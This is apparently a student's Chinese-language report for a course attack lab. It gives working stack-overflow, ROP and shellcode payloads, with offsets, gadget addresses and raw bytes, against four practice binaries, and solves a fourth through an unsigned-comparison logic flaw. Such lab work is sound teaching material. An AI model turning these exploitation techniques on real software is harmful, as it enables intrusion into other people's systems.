



ICS AttackLab 实验报告
基本信息
姓名: 张笑凯
学号: 2024201542

实验环境
操作系统: Linux
工具: objdump, checksec, gdb, Python3
实验文件: problem1, problem2, problem3, problem4

Problem1: 基础栈溢出攻击
漏洞分析
保护机制: 无Canary, 无NX, 无PIE → 可直接覆盖返回地址
漏洞函数: func (0x401232)
缓冲区: rbp-0x8 (仅8字节)
使用 strcpy 无边界检查 → 栈溢出
目标函数: func1 (0x401216) → 输出 "Yes!I like ICS!"

攻击思路
计算偏移量: 缓冲区(8) + saved rbp(8) = 16字节
Payload结构: 16字节填充 + func1地址

Payload构造
python
padding = b"A" * 16
func1_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + func1_addr
实验结果
[alt text](c0af0d501fbd6ead6573231223e6eb4.png)
https://path/to/problem1_screenshot.png
成功输出 "Yes!I like ICS!"

Problem2: ROP攻击
漏洞分析
保护机制: NX启用 → 栈不可执行，需ROP
漏洞函数 func (0x401290)
缓冲区: rbp-0x8 (8字节)
memcpy 复制56字节 → 溢出

目标函数: func2 (0x401216)
要求参数 edi = 0x3f8
可用Gadget: pop rdi; ret (0x4012c7)

攻击思路
构造ROP链:
填充16字节
pop rdi; ret gadget
参数值 0x3f8
func2 地址

Payload构造
python
padding = b"A" * 16
pop_rdi_ret = b"\xc7\x12\x40\x00\x00\x00\x00\x00"
arg_value = b"\xf8\x03\x00\x00\x00\x00\x00\x00"
func2_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + pop_rdi_ret + arg_value + func2_addr
实验结果

成功输出 "Yes!I like ICS!"

Problem3: Shellcode注入
漏洞分析
保护机制: NX禁用 → 栈可执行，可注入shellcode
漏洞函数: func (0x40135a)
缓冲区: rbp-0x20 (32字节)
memcpy 复制64字节 → 溢出

目标函数: func1 (0x401216)
要求参数 edi = 0x72
关键Gadget: jmp_xs (0x401334)
跳转到 saved_rsp + 0x10 = 缓冲区起始

攻击思路
缓冲区开头注入shellcode
Shellcode功能: 设置 edi=0x72，跳转到 func1
覆盖返回地址为 jmp_xs gadget
jmp_xs 跳转到shellcode执行
Payload构造
python
# Shellcode: mov edi, 0x72; mov rax, 0x401216; jmp rax
shellcode = b"\xbf\x72\x00\x00\x00"
shellcode += b"\x48\xb8\x16\x12\x40\x00\x00\x00\x00\x00"
shellcode += b"\xff\xe0"
padding = b"A" * (40 - len(shellcode))  # 补齐到40字节
jmp_xs_addr = b"\x34\x13\x40\x00\x00\x00\x00\x00"
payload = shellcode + padding + jmp_xs_addr

实验结果

成功输出 "Your lucky number is 114"

Problem4: Canary保护与逻辑漏洞
保护机制分析
Canary保护: 启用
NX: 启用
PIE: 启用
RELRO: Full
Canary实现分析
在 func 函数中:
设置Canary (函数开头):
assembly
mov    %fs:0x28,%rax      # 从fs段读取canary值
mov    %rax,-0x8(%rbp)    # 保存到栈上
检查Canary (函数返回前):
assembly
mov    -0x8(%rbp),%rax    # 读取栈上的canary
sub    %fs:0x28,%rax      # 与原始值比较
je     正常返回            # 相等则继续
call   __stack_chk_fail   # 不等则终止程序
程序逻辑分析
函数 func 的关键逻辑:
设置阈值: threshold = 0xfffffffe (-2无符号)
要求输入值 >= threshold
循环递减输入值
成功条件:
循环后值 == 1
原始输入值 == 0xffffffff (-1)

攻击思路
无需绕过canary，直接利用程序逻辑:
输入 -1 (0xffffffff) 满足:
0xffffffff >= 0xfffffffe ✓
0xffffffff - 0xfffffffe = 1 ✓
原始值 == 0xffffffff ✓

实验步骤
text
./problem4
输入1: 任意名字
输入2: 任意回答
输入3: -1
实验结果

成功输出 "great!I will give you great scores"

实验总结
技术要点总结
栈溢出原理: 缓冲区大小不足 + 无边界检查
返回地址覆盖: 计算精确偏移量
ROP技术: 绕过NX保护，利用现有代码片段
ShellcoCanary保护: 栈完整性检查机制
逻辑漏洞: 不依赖内存破坏的漏洞利用
防御措施建议
使用安全函数 (strncpy 代替 strcpy)
启用所有保护机制 (Canary, NX, PIE, RELRO)
代码审计，避免逻辑漏洞
输入验证和边界检查
实验心得
通过本次实验，深入理解了缓冲区溢出漏洞的各种利用方式和相应的防御机制。从简单的返回地址覆盖到复杂的ROP链构造，再到shellcode注入和逻辑漏洞利用，全面掌握了软件安全攻防的基本原理和技术。

附录: 原始Payload文件
[text](../ans1.txt)
[text](../ans2.txt)
[text](../ans3.txt)
Problem4无需payload文件